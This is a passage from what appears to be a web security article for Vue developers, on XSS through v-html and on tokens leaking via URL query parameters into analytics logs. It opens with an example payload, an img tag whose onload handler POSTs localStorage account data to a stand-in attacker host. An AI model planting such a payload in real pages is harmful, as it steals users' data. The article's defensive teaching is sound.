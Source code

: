 ```
<img 
  src="https://twitter.com/img/profile.jpg"
  style="display:none" 
  onload="fetch('https://attacker-url.net/', {method: 'POST', body: localStorage.getItem('account')})"
>
```
Pretty scary, right?

The good news is that it’s totally avoidable. The recommended solution is to not use `v-html` for user-generated content. That way we all sleep better at night.

But if you absolutely must use it, for some reason only you and your corporate overlords know, you must sanitize the user input.

[Sanitise-html](https://www.npmjs.com/package/sanitize-html) is a popular library that handles this well.

Another best practice is to also validate proper user input on the backend side and prevent malicious code from reaching the DB.

## Security Logging

<img src="/images/articles/o11y.webp" alt="Observability" /> 

**We measure everything.**

Page views, clicks, events, errors, how much the user is scrolling, heatmaps, and all sorts of user-related data that we can use to determine if what we are building actually works.

And unfortunately, we sometimes might send a little too much.

Typically we use third-party SaaS tools like Datadog, New Relic, Google Analytics, or any number of observability tools.

That means that every security vulnerability we send from our front-end client is stored in a database that you have no control over.

**What Security Vulnerabilities are we sending?**

The most common vulnerable data we are sending is:

- reset password tokens
- promo codes
- checkout generated links

Why does this happen? Because we are using query params in the URL for sensitive data.

```
https://your-website.com/reset-password?token=AXSNNm123
```

When this happens, our third-party o11y library of choice will log this URL as visited.

If an attacker gets access to your logged data, they can use these tokens to hijack user accounts or get access to unused promo codes, or visit checkout links and get access to user card information.

To prevent this it’s recommended to not use query params and use hashes instead.
